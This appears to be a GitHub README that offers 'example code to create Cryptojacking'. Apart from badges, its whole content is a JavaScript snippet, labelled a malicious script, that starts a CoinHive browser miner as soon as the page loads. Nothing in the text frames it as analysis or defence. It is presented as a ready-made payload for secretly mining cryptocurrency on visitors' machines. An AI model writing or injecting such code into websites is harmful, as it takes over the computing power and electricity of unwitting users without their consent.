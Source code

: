 <h2 align="center">Example code to create Cryptojacking</h2>

<p align="center"><a href="https://github.com/Sasser1337/Cryptojacking/stargazers"><img src="https://img.shields.io/github/stars/Sasser1337/Cryptojacking" alt="Stars Badge"/></a> <a align="center">
<a href="https://github.com/Sasser1337/awesome-github-profile-readme/network/members"><img src="https://img.shields.io/github/forks/Sasser1337/Cryptojacking" alt="Forks Badge"/></a> <a align="center">
<a href="https://github.com/Sasser1337/Cryptojacking/blob/master/LICENSE"><img src="https://img.shields.io/github/license/Sasser1337/Cryptojacking?color=2b9348" alt="License Badge"/></a> <a align="center">

<p align="center"> <a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FSasser1337%2FCryptojacking&count_bg=%2379C83D&title_bg=%23555555&icon=&icon_color=%23E7E7E7&title=hits&edge_flat=false"/></a> <a align="center">
  
<h2> Example code </h2>

```javascript
//Create a malicious script
<script>
  //Create a function to start the cryptojacking process
  function startCryptojacking() {
    //Create a variable to store the miner
    var miner = new CoinHive.Anonymous('YOUR_SITE_KEY');
    //Start the miner
    miner.start();
    //Listen for any errors
    miner.on('error', function(params) {
      console.log('An error occured while cryptojacking: ' + params.error);
    });
  }
  //Call the function to start the cryptojacking process
  startCryptojacking();
</script>
```
